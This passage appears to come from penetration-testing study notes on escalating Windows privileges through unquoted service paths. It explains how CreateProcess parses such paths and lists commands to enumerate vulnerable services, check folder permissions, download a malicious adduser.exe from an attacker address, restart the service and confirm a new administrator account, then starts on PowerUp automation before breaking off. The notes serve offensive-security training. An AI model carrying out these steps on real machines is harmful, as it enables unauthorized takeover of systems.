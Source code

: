 9. Rest of the steps same as above section (2022)
   
## Unquoted Service Paths

Prerequisite: 
- have Write permissions to a service’s main directory or subdirectories but cannot replace files within them
- the path of the executable file of the target Windows service contains one or more spaces and is not enclosed within quotes 

Theory:
- When a service is started and a process is created, the Windows `CreateProcess` function is used.
- The first parameter, *IpApplicationName*, is used to specify the name and optionally the path to the executable file
- If the provided string contains spaces and is not enclosed within quotation marks, the function interprets the path from left to right until a space is reached. For every space in the path, the function appends `.exe` to the string and uses the rest as arguments.
  E.g.
  ```
  C:\Program.exe 
  C:\Program Files\My.exe 
  C:\Program Files\My Program\My.exe 
  C:\Program Files\My Program\My service\service.exe
	```

Exploitation method:
- Create a malicious executable in one of the interpreted paths
- once the service is started, our file gets executed with the same privileges that the service starts with (often the *LocalSystem* account -> privilege escalation)

Steps:
1. Connect to target machine
2. Enumerate running and stopped services with no quotes and space(s):
   (PS) `Get-CimInstance -ClassName win32_service | Select Name,State,PathName` (need to manually search for target service in the output)
   (cmd) `wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """` (preferred)
3. Check if we have permissions to start and stop the target service:
   (PS) `Start-Service GammaService`
   (PS) `Stop-Service GammaService`
   If we can't restart the service ourselves, will need to use method in above section
4. Check our access rights in the interpreted paths:
   (PS) `icacls "C:\"`, `icacls "C:\Program Files"`, ...
   Until we find a path where we have Write permissions
5. Create malicious .exe file. Can reuse the C code in the "Service Binary Hijacking" section
6. Transfer the malicious .exe file to the target path with the appropriate name.
   (PS) `iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe`
7. Restart target service (see "Service Binary Hijacking" section for methods).
	- Note that even if there is an error in starting the service, our exploit may still be successful! (Our malicious code does not accept the parameters of the original.)
8. Check that new user with local administrative privileges is created successfully.
   `net user`
   `net localgroup administrators`

Restore functionality of the original service:
1. Stop service
2. Delete our binary

Automation with PowerUp.ps1:
1. Load script:
   `. .\PowerUp.ps1`
2. Detect prone services:
   `Get-UnquotedService`
3. Use AbuseFunction:
  ```